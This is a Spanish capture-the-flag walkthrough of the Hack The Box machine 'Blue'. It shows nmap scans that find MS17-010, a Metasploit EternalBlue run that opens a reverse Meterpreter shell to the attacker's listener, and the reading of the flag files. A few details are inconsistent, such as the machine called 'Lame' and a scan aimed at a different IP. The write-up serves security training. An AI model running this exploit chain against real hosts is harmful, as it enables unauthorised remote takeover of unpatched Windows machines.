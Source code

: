 
# Blue

Creamos los directorio de trabajo con el nombre de la maquina en nuestro caso Lame

```ruby
mkdir Blue
```

## Reconocimiento de Puertos

Lanzamos un ping para comprobar que tenemos conexión desde nuestra maquina 

```ruby
ping 10.10.10.40
```

Comprobamos la versión del sistema operativo que tenemos si tenemos un ttl de 127 se trata de una maquina windows.

### Reconocimientos Nmap

Lanzamos la herramienta Nmap para ver los puertos disponibles que se encuentran abiertos,
es un escaneo agresivo ya que estamos en un entorno controlado

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```

La salida la ponemos en un archivo con formato grepeable para poder buscar luego 

Los puertos son los siguientes:

```ruby
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49155/tcp open  unknown      syn-ack ttl 127
49157/tcp open  unknown      syn-ack ttl 127

```

Realizamos un escaneo mas exhaustivo para comprobar que versión corre en ese puerto

```ruby
nmap --script=firewall-bypass -p135,139,445,49152,49153,49154,49155,49157 -vvv -oN targeted 10.10.10.40
```

```ruby

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```

vemos que podemos explotar la vulnerabilidad eternalblue en la máquina lo podemos de hacer de varias formas yo voy con metasploit que es la forma mas sencilla .


## Explotamos MS17-010

Para ello primero de todo vamos a metasploit y buscamos aquello referente con el codigo 


```ruby
searchsploit ms17-010
```

Encontramos las siguientes vulnerabilidades

``` ruby
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14   average  Yes
```

Podemos ver que si lo ejecutamos nos lanza una shell meterpreter, por lo tanto vamos a configurarlo para intentar explotar el fallo

```ruby
msf6 exploit(windows/smb/ms17_010_eternalblue) > setg LHOST 10.10.14.13
LHOST => 10.10.14.13

msf6 exploit(windows/smb/ms17_010_eternalblue) > setg RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
```


Explotamos el exploit:

```ruby 
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
.....
[*] Meterpreter session 2 opened (10.10.14.13:4444 -> 10.10.10.40:49164) at 2023-06-28 09:20:26 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

Finalmente podemos comprobar que lo explotamos con éxito.
```ruby
meterpreter > ls
Listing: C:\Windows\system32
...
```

### Tratamiento de TTY de meterpreter 

Como no me gusta la terminal de meterpreter porque es un poco precaria voy a tunearla para que sea parecida a la de windows

Para ello vamos a ejecutar el siguiente comando 

```ruby 
meterpreter > execute -c -f cmd.exe -H -i -d
```

Con esto tenemos una shell como la de windows 

```ruby 
Process 1820 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```



#### Buscamos las flag

Para encontrar las flags vamos al directorio raíz y a partir de ahí realizamos una búsqueda 
recursiva usamos el siguiente comando.

```ruby
dir /s /b root.txt user.txt
```
Nos devuelve dos ficheros que existen en el equipo en los siguientes directorios 

```ruby
C:\Users\Administrator\Desktop\root.txt
C:\Users\haris\Desktop\user.txt
```

Para ver las flags usamos el siguiente comando (es similar al cat)

```ruby 
type C:\Users\Administrator\Desktop\root.txt
```